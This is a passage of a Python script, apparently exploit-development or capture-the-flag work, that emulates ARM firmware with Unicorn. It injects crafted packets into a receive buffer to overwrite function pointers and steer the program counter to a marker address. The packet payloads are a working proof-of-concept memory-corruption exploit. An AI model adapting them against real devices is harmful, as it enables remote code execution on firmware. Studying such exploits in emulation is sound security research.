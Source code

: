 ```python
            interrupt_no = 158
        interrupt_func = u32(mu.mem_read(ROM_BASE + 4 * (interrupt_no - 1), 4))
        if emu_cnt == 8:
            mu.emu_start(interrupt_func, 0x20513C)
        else:
            mu.emu_start(interrupt_func, 0x203B1C)

        # restore
        for reg in regs:
            mu.reg_write(reg, ptrs[reg])    # how to deal with stack?
        # mu.reg_write(UC_ARM_REG_PC, pc)

        print("ok")

    pass
    

def hook_mem_unmapped(mu, access, address, length, value, user_data):
    print(f"[hook_mem_unmapped] {access}, {address:x}, {length}, {value}, {user_data}")
    if (address == 0xbabecafe):
        print("0xbabecafe Bingo!!")
    pass


packet_injected = 0
packet_body = b"\x00\x00\x05\x00\x14\x00\x0a\x00" + b'a'*0x20

channel_rx_buffer = 0x200008d4
pc_controlled = 0xbabecafe

packet_injected_2 = 0
packet_body_2 = (b"\x72\x00\x41\x00" + b"\xaa\x02") + p32(0) + p32(channel_rx_buffer) + p32(pc_controlled) + p16(0) + b'\x01' + b'\x00'+ b"eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa"


# override notification_process
packet_injected_3 = 0
packet_body_3 = (b"\x72\x00\x41\x00" + b"\xaa\x02") + b"aa" + p32(0) + p32(channel_rx_buffer) + p32(pc_controlled) + p16(0) + b'\x01' + b'\x00' + b"aafaaagaaahaaaiaaaja" + p32(channel_rx_buffer) + p32(channel_rx_buffer) + b"aanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa"

# override process_list
packet_injected_4_n = [0 for _ in range(4)]
packet_body_4_n = [b"\x72\x00\x41\x00" + b"\xaa\x02" + b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaa" + b'a'*4 + p32(channel_rx_buffer) + b"xaaayaaazaabbaabcaabdaabeaabfa" for _ in range(4)]


def hook_mem_read(mu, access, address, length, value, user_data):
    global packet_injected, packet_body, packet_body_2, packet_injected_2, packet_body_3, packet_injected_3, emu_cnt
    print(f"[hook_mem_read] {access}, {address:x}, {length}, {value}, {user_data}")
    if length == 4:
        if address == 0x40088828 and packet_injected < len(packet_body) + 1 and emu_cnt == 1:
            if packet_injected == 0:
                mu.mem_write(address, p32(len(packet_body)))
            else:
                mu.mem_write(address, p8(packet_body[packet_injected-1]))
            packet_injected += 1

        elif address == 0x40088828 and packet_injected_2 < len(packet_body_2) + 1 and emu_cnt == 2:
            if packet_injected_2 == 0:
```